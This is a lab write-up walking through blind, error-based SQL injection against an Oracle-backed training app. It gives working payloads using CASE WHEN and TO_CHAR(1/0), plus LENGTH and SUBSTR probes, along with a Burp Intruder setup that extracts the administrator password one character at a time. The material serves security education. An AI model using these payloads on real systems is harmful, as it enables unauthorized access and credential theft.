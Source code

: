 # Lab: Blind SQL injection with conditional errors

## Description

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## HINT

This lab uses an Oracle database. For more information, see the SQL injection cheat sheet.

# Step 1: Verify blind, conditional-error-based SQLi

## STEP 1 Finding injection point

I will be using burpsuite for this lab. To start, I start with intercept off and visit the target page in the browser. I also pull up the browser dev tools, in order to view and modify my cookie values.

![image](https://user-images.githubusercontent.com/83407557/169845297-c31515b2-98b3-478d-bdd7-07ed9c1e259c.png)

I then will try and attempt to get the server to error with a single quotation mark added to my tracking cookie and refreshing the page:

![image](https://user-images.githubusercontent.com/83407557/169846190-10990e6d-5b0e-4fe4-87a6-ff97b40404d2.png)

If I then add a comment -- the error goes away:

![image](https://user-images.githubusercontent.com/83407557/169846508-c3987f72-d92d-467a-9082-729621022ca5.png)


## STEP 2 Using true and false Select statement to cause an error

In oracle I need to select from something, which I will use the always valid table *dual*. 

A Valid statement would be:

```sql
SELECT * FROM dual
```

This is because dual exists and as long as the server can select from it, the statement will not error

and invalid statement would be:

```sql
SELECT * FROM doesnt_exist
```

So with that mind, I will need to concatonate this onto my payload like the following:

Should NOT error
```sql
'||(SELECT * FROM dual)--
```

SHOULD error
```sql
'||(SELECT * FROM doesn't_exist)--
```

![image](https://user-images.githubusercontent.com/83407557/169852091-d4c0f322-8cf5-408b-aca0-53e5724100ad.png)

![image](https://user-images.githubusercontent.com/83407557/169852204-6e97b877-fccd-4935-80d5-1b7878e34e55.png)

and it acts as expected.

## STEP 3 Crafting a True select statement that causes an error

since the goal is to guess each character of the administrators password, we need to make it so that if our select statement is true, the server will throw an error:

Because 1 does equal 1, this should error because 1/0 is an invalid operation

```sql
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--
```

![image](https://user-images.githubusercontent.com/83407557/169855167-14bdbf28-ab76-4e57-83cb-d699e7aefd39.png)

However with the following because 1 does not equal 2, the sever will select anything ('') from dual and therefore not error

```sql
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--
```


![image](https://user-images.githubusercontent.com/83407557/169855765-b282598e-32da-4d1e-9325-dac145575ca6.png)


# STEP 4 Creating string for burp-intruder payload to determine password length


Since we know the table name is users and the username column will be administrator, we need to dig out the password column for that entry:

I want to test if the password is greater than a given number, if it is: the server should error. If the password is smaller than the given number, the server should not error. I will know how long the password is based on the highest given number that still errors.

The initial string will just test if the password is more that 1 character long. I will then send it to burp intruder

```sql
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')--
```
I can then set the payload position at the number I am comparing the password length to:

![image](https://user-images.githubusercontent.com/83407557/169927613-cead1037-ddf6-49a4-9c06-119f40cfd87d.png)

And will set a sniper payload that is a set of numbers ranging from 1-30.

![image](https://user-images.githubusercontent.com/83407557/169927748-e8979edf-4647-4628-944f-71c6454a2ada.png)

This attack should error out until the password length is given from the set of numbers

![image](https://user-images.githubusercontent.com/83407557/169927902-6466f9bd-ea4c-4158-b194-959cb4a5fe88.png)

because the is password > 20 did not return an error, this lets me know that the password is 20 characters long.

# STEP 5 Use substring method to guess 20 character long password

In a similar fasion I can create a query that can guess the password one character at a time, until all 20 are guessed. 

The initial query string:

This tests if the first character is an 'a'
```sql
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

This would check if the second character was 'b'
```sq;
'||(SELECT CASE WHEN SUBSTR(password,2,1)='b' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')
```

With that in mind, lets build a burp intruder attack:

It will be a cluster bomb, with two payload positions. The first at the substring number, the second at the letter we are guessing.

![image](https://user-images.githubusercontent.com/83407557/169928628-e02b9304-e80c-4b53-9e4f-01d218dcb705.png)

The first payload will be the number 1-20

![image](https://user-images.githubusercontent.com/83407557/169928707-11642282-9a35-4c3a-804c-d85307f4061e.png)

the second is a brute force with all lowercase letters and the numbers 0-9.

![image](https://user-images.githubusercontent.com/83407557/169928811-7c43b756-79ee-4c82-83bb-752a0df3e34f.png)

As you can see this will create a lot of requests, so go get a coffee at the farther place that is a little more fancy (if you are on burp community like me). However we just are interested in the 20 responses that are errors, so after a nap, we should have the password.



